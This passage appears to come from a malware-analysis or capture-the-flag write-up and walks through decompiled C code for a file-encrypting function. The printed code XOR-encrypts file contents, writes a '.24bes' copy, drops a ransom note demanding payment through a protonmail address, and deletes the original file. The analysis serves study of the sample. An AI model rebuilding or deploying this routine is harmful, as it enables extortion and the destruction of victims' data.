 3. **Encrypt the File Content**:
   ```c
   for (local_20 = 0; uVar2 = local_20, (long)local_20 < (long)local_30; local_20 = local_20 + 1) {
       bVar1 = *(byte *)((long)local_38 + local_20);
       sVar4 = strlen(param_2);
       *(byte *)((long)local_38 + local_20) = bVar1 ^ param_2[uVar2 % sVar4];
   }
   ```
   - Iterates through each byte of the file content.
   - Encrypts each byte by XORing it with a byte from the encryption key `param_2`. The key is used in a cyclic manner.

4. **Write the Encrypted Content to a New File**:
   ```c
   snprintf(local_448, 0x400, "%s.24bes", param_1);
   local_28 = fopen(local_448, "wb");
   fwrite(local_38, 1, local_30, local_28);
   fclose(local_28);
   free(local_38);
   ```
   - Constructs the name for the encrypted file by appending ".24bes" to the original filename.
   - Opens the new file in binary write mode.
   - Writes the encrypted content to this new file.
   - Closes the new file and frees the allocated memory.

5. **Create a Note File**:
   ```c
   snprintf(local_848, 0x400, "%s_note.txt", local_448);
   local_40 = fopen(local_848, "w");
   if (local_40 == (FILE *)0x0) {
       printf("Error creating note file: %s\n", local_848);
   }
   else {
       fwrite("This file has been encrypted by bes24 group, please contact us at bes24@protonmail.com to discuss payment for us providing you the decryption software..\n", 1, 0x99, local_40);
       fclose(local_40);
   }
   ```
   - Constructs the name for the note file by appending "_note.txt" to the encrypted file name.
   - Opens the note file in write mode.
   - Writes a ransom note to the note file.
   - Closes the note file.

6. **Delete the Original File**:
   ```c
   iVar3 = remove(param_1);
   if (iVar3 != 0) {
       printf("Error deleting original file: %s\n", param_1);
   }
   ```
   - Attempts to delete the original file.
   - If deletion fails, it prints an error message.

##### Function's Purpose
The `encrypt_file` function encrypts the content of a specified file using a provided key and saves the encrypted content to a new file with a ".24bes" extension. It also creates a note file containing a message from the "bes24 group," and then attempts to delete the original file. This function mimics the behavior of ransomware.

